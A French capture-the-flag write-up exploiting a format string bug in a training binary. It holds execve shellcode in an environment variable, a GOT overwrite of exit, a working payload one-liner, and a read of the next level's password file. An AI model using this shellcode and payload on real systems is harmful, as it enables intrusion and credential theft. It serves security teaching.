 
## LEVEL 05

Au lancement du programme celui-ci attend une entrée, puis la print dans le terminal.

On peut essayer une format string attack.
```
 $ python -c "print 'aaaa ' + '%x ' * 15" > /tmp/payload
 $ cat /tmp/payload | ./level05
 aaaa 64 f7fcfac0 f7ec3af9 ffffd4ef ffffd4ee 0 ffffffff ffffd574 f7fdb000 61616161 20782520 25207825 78252078 20782520 252078
```
Printf stock alors notre string à la 10ème adresse.

On créé alors notre payload avec notre shellcode dans une variable d'environnement.

 ```
 export PAYLOAD=$(python -c 'print 500*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
 ```
    
Grace à gdb on peut trouver l'adresse de cette variable d'environnement.
```
(gdb) b *main
(gdb) x/200s environ
...
0xffffdbb4:      "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xffffdc7c:      "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\
...
```
Notre payload se trouve alors à l'adresse 0xffffdbb4. On va prendre une adresse du nopesled comme dans les exercices de rainfall : 0xffffdc7c.

On va maintenant chercher l'adresse de l'exit dans le GOT pour la rediriger vers notre variable d'environnement.

```
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt

(gdb) x/2i 0x08048370
   0x8048370 <exit@plt>:        jmp    *0x80497e0
   0x8048376 <exit@plt+6>:      push   $0x18
```

Bien, nous avons maintenant l'adresse de l'exit 0x80497e0

On va alors mettre l'adresse de notre variable d'environnement dans l'adresse ci-dessus. Le problème est qu'il faut la mettre en décimal ce qui fait beaucoup de caractères. On va donc diviser notre adresse en deux 0xdc7c(56444) et 0xffff (65535) que l'on met respectivement dans 0x80497e0 et 0x80497e2.

On coupe en deux on à donc :
65535- 56444 = 9091

On enlève les 8 octets des deux adresses.
56444 - 8 = 56436

```
(python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%56436d"+"%10$hn"+"%9091d"+"%11$hn"';cat) | ./level05
```
```
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
